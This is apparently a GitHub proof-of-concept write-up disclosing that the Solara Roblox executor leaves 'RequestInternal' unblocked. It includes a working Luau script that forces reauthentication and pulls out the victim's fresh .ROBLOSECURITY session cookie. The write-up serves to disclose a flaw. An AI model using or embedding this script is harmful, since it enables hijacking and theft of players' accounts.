 # Solara-Stealer-PoC
Writeup on stealing roblox accounts with Solara

# Introduction
[RequestInternal](https://robloxapi.github.io/ref/class/HttpService.html#member-RequestInternal) is a 'CoreScript' function in Roblox that allows the Roblox engine to interact with Roblox’s internal web APIs. This function is essential for interacting with Roblox's web API's as the user. This write-up will focus on its use in session hijacking, and other potential uses.

# Session Hijacking via Reauthentication
Under the "[Roblox authentication web API](https://auth.roblox.com)", a feature exists under the name "logoutfromallsessionsandreauthenticate". It does exactly what the name suggests, it takes the input '.ROBLOSECURITY' session, invalidates it, then gives you a new one to reauthenticate with.

Now, with 'RequestInternal', you cannot use the function with a normal LocalScript, as if you could you could perform actions maliciously using the user's cookie(s). The issue, is that Solara, did not block this function for use in the execution, therefore the user using Solara is vulnerable to the exploitation of 'RequestInternal'.

# PoC
https://streamable.com/837cg4

# Example of Session Hijacking
```luau
-- httpservice
local httpService = game:GetService("HttpService")

-- data for the request
local data = {
    Url = "https://auth.roblox.com/v1/logoutfromallsessionsandreauthenticate", -- url for reauthentication
    Method = "POST", -- send a POST request
    Body = "{}" -- placeholder
}
-- this request will be sent with the user's cookies
local request = httpService:RequestInternal(data)

-- success is a boolean - whether or not the request was a success (?)
-- response is the dict of response data:
--[[
    response.Body: string
    response.Headers: table (dict)
    response.StatusCode: number
]]
    -- start the request
request:Start(function(success, response) 
    local headers = response.Headers -- get the response headers
    local cookie = headers["set-cookie"] -- get the cookies sent from the server
    local session = cookie:split(";")[1] -- get the raw cookie text without expiration shi

    print(session) -- output the reauthenticated session
end)
```

# Conclusion
Solara needs to disallow exploiters from being able to use the 'RequestInternal' function.
